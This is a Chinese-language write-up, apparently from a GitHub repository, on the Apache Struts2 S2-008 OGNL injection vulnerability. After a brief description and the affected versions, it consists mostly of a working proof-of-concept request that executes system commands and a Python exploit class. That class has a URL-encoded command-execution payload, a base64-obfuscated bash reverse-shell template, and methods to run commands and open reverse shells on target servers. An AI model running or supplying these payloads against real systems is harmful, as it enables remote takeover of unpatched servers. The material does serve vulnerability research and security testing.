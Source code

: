 # Struts2-008

## 漏洞介绍

Struts2-008存在中的多个关键漏洞,而Struts2-008主要是利用对传入参数没有严格限制，导致多个地方可以执行恶意代码，传入`?debug=command&expression=`即可执行OGNL表达式

## 漏洞版本

影响版本：Struts 2.1.0 – 2.3.1

官方通告：https://cwiki.apache.org/confluence/display/WW/S2-008

## poc

```java
devmode.action?debug=command
    &expression=(
    %23_memberAccess["allowStaticMethodAccess"]=true,
    %23foo=new java.lang.Boolean("false"),
    %23context["xwork.MethodAccessor.denyMethodExecution"]=%23foo,              @org.apache.commons.io.IOUtils@toString(
        @java.lang.Runtime@getRuntime().exec('env').getInputStream()
    )
)
```

## 扫描器

```python
class S2_008:
    """S2-008漏洞检测利用类"""
    info = "[+] S2-008:影响版本Struts 2.1.0-2.3.1; GET请求发送数据; 支持任意命令执行和反弹shell"
    exec_payload = "/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27{cmd}%27%29.getInputStream%28%29%29)"

    shell = "bash -c {echo,SHELL}|{base64,-d}|{bash,-i}"

    def __init__(self, url, data=None, headers=None, encoding="UTF-8"):
        self.url = url
        self.headers = parse_headers(headers)
        self.encoding = encoding
        self.is_vul = False

    def check(self):
        """检测漏洞是否存在"""
        html = echo_check(self)
        if str(html).startswith("ERROR:"):
            return html
        if html:
            self.is_vul = True
            return 'S2-008'
        return self.is_vul

    def exec_cmd(self, cmd):
        """执行命令"""
        payload = self.exec_payload.format(cmd=quote(cmd))
        html = get(self.url + payload, self.headers, self.encoding)
        return html

    def reverse_shell(self, ip, port):
        """反弹shell"""
        html = reverse_shell(self, ip, port)
        return html
```

## 参考

>https://github.com/vulhub/vulhub/blob/master/struts2/s2-008/README.zh-cn.md
